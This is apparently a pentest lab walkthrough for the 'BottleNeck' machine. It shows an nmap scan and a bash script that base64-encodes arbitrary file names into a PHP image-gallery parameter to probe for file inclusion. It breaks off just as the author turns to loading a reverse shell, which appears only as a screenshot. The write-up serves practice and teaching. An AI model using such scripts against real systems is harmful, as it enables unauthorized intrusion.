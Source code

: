 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```

Lets find out the IP of this Machine First ➡️

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled.png)

```jsx
IP : 10.10.2.31
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Bottleneck]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.31**   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 09:27 IST
Nmap scan report for 10.0.2.31
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bee0d57576ead4f39177f947207dbfa4 (RSA)
|   256 7a3490c059d1db63bd4eca5e6feee72d (ECDSA)
|_  256 c9b966ce28adb7b3d9bbed220de445db (ED25519)
80/tcp open  http    nginx
|_http-title: BOTTLENECK
MAC Address: 08:00:27:62:05:74 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%203.png)

Now When I visited the page I encountered with this link ⤵️

   [http://10.0.2.31/image_gallery.php?t=1682050025&f=Ym90dGxlbmVja19kb250YmUucG5n](http://10.0.2.31/image_gallery.php?t=1682050025&f=Ym90dGxlbmVja19kb250YmUucG5n)

Now this link loads 2 things >>

1. t = `1682050025` > This is date in seconds .
2. f = `Ym90dGxlbmVja19kb250YmUucG5n` > This data is base64 encoded when we decode it we get `bottleneck_dontbe.png`

So here we have to create a automation script which loads the date in seconds and also takes an input for uploading the payload .

```bash
#!/bin/bash
t=$(date +%s)
f=$(echo -e -n $1 |base64 -w 0)
url="http://10.0.2.31/image_gallery.php?t=$t&f=$f"
echo $url
echo $(curl -s -vv "$url")
```

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%204.png)

Lets run this >>

Now From the web Browser we get this >>

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%205.png)

Now Lets try to load the reverse shell script from outside >>

![Untitled](/Vulnhub-Files/img/BottleNeck/Untitled%206.png)